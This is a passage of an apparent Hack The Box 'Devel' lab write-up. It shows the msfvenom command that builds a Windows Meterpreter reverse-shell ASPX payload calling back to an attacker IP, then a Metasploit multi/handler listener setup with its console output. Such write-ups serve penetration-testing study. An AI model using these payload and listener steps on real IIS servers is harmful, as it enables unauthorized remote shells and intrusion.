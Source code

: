 ![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/463cfb1e-014c-4466-9844-1ff2acfc35f2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/463cfb1e-014c-4466-9844-1ff2acfc35f2/Untitled.png)

Welcome IIS7 page.

Let's create a payload with msfvenom.

```bash
root@kali:~/HTB/Devel# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > reverse_shell.aspx
```

`-p` → Payload.

`-f` → File type.

`-LHOST` → Local host.

`-LPORT` → Local port.

We use a windows/meterpreter/reverse_tcp payload so we need to load up metasploit.

We can do this process manualy (not using metasploit) 

```bash
root@kali:~/HTB/Devel# msfconsole
```

We are going to use exploit/multi/handler for listening to the port 4444.

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
```
